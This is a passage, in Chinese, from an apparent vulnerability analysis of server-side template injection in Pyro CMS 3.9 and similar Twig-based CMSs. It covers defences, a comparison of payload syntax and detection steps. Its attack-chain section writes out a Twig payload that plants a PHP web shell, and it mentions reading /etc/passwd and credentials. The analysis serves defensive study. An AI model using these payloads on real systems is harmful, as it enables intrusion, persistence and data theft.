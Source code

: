 ------

### **防御建议**

1. **输入过滤**：对用户输入中的`{{}}`语法和危险过滤器（如`map`、`system`）进行转义或禁用。
2. **权限控制**：限制后台管理权限，避免非必要用户接触敏感功能。
3. **沙盒机制**：在Twig配置中启用沙盒模式，禁止执行系统级函数。
4. **升级补丁**：升级至官方修复版本，或禁用角色描述字段的动态模板解析。

------

### **与其他SSTI漏洞对比**

| 漏洞名称                 | 利用场景             | 权限要求   | 注入方式             | 关键函数/语法                       |      |
| :----------------------- | :------------------- | :--------- | :------------------- | :---------------------------------- | ---- |
| **Pyro CMS SSTI**        | 角色描述编辑（后台） | 管理员权限 | Twig过滤器`map()`    | `{{[...]         | map("system")}}` |      |
| **Winter CMS SSTI**      | CMS模板编辑（后台）  | 管理员权限 | Twig内置函数`dump()` | `{{ dump() }}`                      |      |
| **FoF Pretty Mail SSTI** | 邮件模板编辑（后台） | 管理员权限 | 直接调用`system()`   | `{{ system() }}`                    |      |
| **Gibbon LMS SSTI**      | 系统配置模块（后台） | 管理员权限 | Twig过滤器`filter()` | `{{[...]         | filter()}}`      |      |

------

### **攻击链扩展**

- **权限维持**：通过RCE植入Web Shell（如`{{["echo '<?php system($_GET[cmd]); ?>' > shell.php"]|map("system")}}`）。
- **横向渗透**：利用服务器权限扫描内网服务或窃取凭证。
- **数据泄露**：执行`cat /etc/passwd`或读取数据库配置文件。

------

### **检测与修复验证**

1. **漏洞检测**：
   - 输入`{{["echo test"]|map("system")|join}}`，观察是否输出`test`。
2. **修复验证**：
   - 检查角色描述字段是否过滤`{{}}`语法或禁用`system`函数。
   - 确认Twig配置中`map`过滤器无法调用危险函数。

------

**总结**：Pyro CMS 3.9的SSTI漏洞通过角色描述字段直接执行系统命令，攻击路径简单且破坏性强。需结合严格的输入过滤和权限隔离进行防御。

## 六、 CmsMadeSimple v2.2.17 SSTI漏洞分析

[CmsMadeSimple v2.2.17 - session hijacking via Server-Side Template Injection (SSTI) - PHP webapps Exploit](https://www.exploit-db.com/exploits/51599)

### **漏洞概述**
